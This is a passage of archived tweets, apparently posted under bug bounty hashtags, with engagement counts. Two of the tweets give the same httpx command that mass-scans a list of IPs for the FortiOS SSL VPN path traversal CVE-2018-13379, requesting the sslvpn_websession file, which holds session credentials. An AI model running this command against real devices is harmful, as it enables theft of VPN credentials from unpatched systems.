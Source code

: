  httpx -l ips.txt -path "/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession" -status-code -mc 200

#BugBounty #bugbountytip #bugbountytips #Hacking #CyberSecurity https://t.co/pKp3NHlAOt
</blockquote>

<table><tr>
<td><img src="pictures/3779a77402d677fe09efa12eb3a8c27741d1af8e6dfde07667ab094a7c3082eb.jpg" alt="3779a77402d677fe09efa12eb3a8c27741d1af8e6dfde07667ab094a7c3082eb.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>112</code></td>
<td>Favorites: <code>385</code></td>
</tr></table>

---

# alone_breecher
**https://twitter.com/alone_breecher/status/1677230327796756481 _at 2023-07-07, 08:17:26_**
<blockquote>
Title :- A path traversal vulnerability in the FortiOS SSL VPN web portal  CVE-2018-13379 🪲

 httpx -l ips.txt -path "/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession" -status-code -mc 200

#BugBounty #bugbountytip #bugbountytips #Hacking #CyberSecurity https://t.co/ypA6wRMux1
</blockquote>

<table><tr>
<td><img src="pictures/3bd4ce980dae4adaf26851daa516e03b82c80ec14139f26c13eb5b914908b904.jpg" alt="3bd4ce980dae4adaf26851daa516e03b82c80ec14139f26c13eb5b914908b904.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>54</code></td>
<td>Favorites: <code>181</code></td>